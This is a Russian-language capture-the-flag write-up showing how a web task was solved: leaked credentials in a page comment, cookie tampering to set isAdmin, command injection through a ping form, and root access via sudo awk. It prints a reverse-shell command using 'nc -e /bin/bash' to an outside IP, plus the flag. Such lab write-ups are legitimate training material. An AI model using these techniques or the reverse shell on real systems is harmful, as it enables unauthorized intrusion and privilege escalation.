 Сервер с формой авторизации:
![alt text](image.png)
На странице есть комментарий с кредами:
![alt text](image-1.png)
 ``` 'test_user', 'Stg0nPassw0rd'```

При авторизации отвечает, что мы не админ:
![alt text](image-2.png)
При авторизации в куки передается имя, логин и проверка на админа:
![alt text](image-3.png)
Если заменить проверку **isAdmin** на **true**, т.е **"isAdmin";b:1;**
![alt text](image-4.png)
Проваливаемся до страницы с формой для пингования
![alt text](image-5.png)
Выполняем команду `ls` и там видим `root_flag.txt`, который может быть прочитан рутом
![alt text](image-6.png)
Выполнение команд происходит от `www-data` и файл ему недоступен
![alt text](image-7.png)
![alt text](image-8.png)
Выполняем **sudo –l**, там видим, что можно пользователю запустить **awk** от рута
![alt text](image-9.png)

Повышаем привилегии до рута через **awk**:

Либо поднимаем шелл:
```sudo awk 'BEGIN {system("nc -e /bin/bash 192.168.88.139 31337")}'```
![alt text](image-10.png)

Либо через ```sudo awk 'BEGIN {system("cat root_flag.txt")}'```
![alt text](image-11.png)
**Получаем флаг: RDGCTF{S0mn1teln0_No_0k3y**}
